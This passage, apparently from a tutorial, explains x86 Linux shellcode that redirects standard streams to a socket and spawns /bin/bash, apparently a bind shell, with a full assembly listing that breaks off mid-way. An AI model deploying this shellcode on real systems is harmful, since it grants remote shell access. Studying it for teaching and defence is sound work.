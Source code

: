 ```nasm
```

To redirect IO to the descriptor, a loop with the `$ecx` register is used. Because of the way the loop instruction works (it exits when `$ecx` is 0), the `dec` and `inc` instruction are used here so we can still use the `$ecx` value to call `dup2`.

```nasm
; Redirect STDIN, STDOUT, STDERR to socket
xor ecx, ecx
mov cl, 0x3         ; counter for loop (stdin to stderr)
mov ebx, edi        ; socket fd

dup2:
mov al, 0x3f        ; sys_dup2
dec ecx
int 0x80            ; sys_dup2
inc ecx
loop dup2
```

The `/bin/bash` program is used to spawn a shell, padding it with forward slashes so it is 4 bytes aligned. Because the string needs to be null-terminated, an garbage character (`A`) is added to string and is changed to a NULL with the subsequent `mov byte [esp + 11], al` instruction.

```nasm
; execve()
xor eax, eax
push 0x41687361     ; ///bin/bashA
push 0x622f6e69
push 0x622f2f2f
mov byte [esp + 11], al ; NULL terminate string
mov al, 0xb         ; sys_execve
mov ebx, esp        ; const char *filename
xor ecx, ecx        ; char *const argv[]
xor edx, edx        ; char *const envp[]
int 0x80            ; sys_execve
```

The final assembly code looks like this:

```nasm
global _start

section .text

_start:

    ; Zero registers
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ; Create socket
    mov al, 0x66        ; sys_socketcall
    mov bl, 0x1         ;   SYS_SOCKET
    push 0x6            ; int protocol -> IPPROTO_TCP
    push 0x1            ; int type -> SOCK_STREAM
    push 0x2            ; int domain -> AF_INET
    mov ecx, esp
    int 0x80            ; sys_socketcall (SYS_SOCKET)
    mov edi, eax        ; save socket fd

    ; Create addr struct
    push edx            ; NULL padding
    push edx            ; NULL padding
    push edx            ; sin.addr (0.0.0.0)
```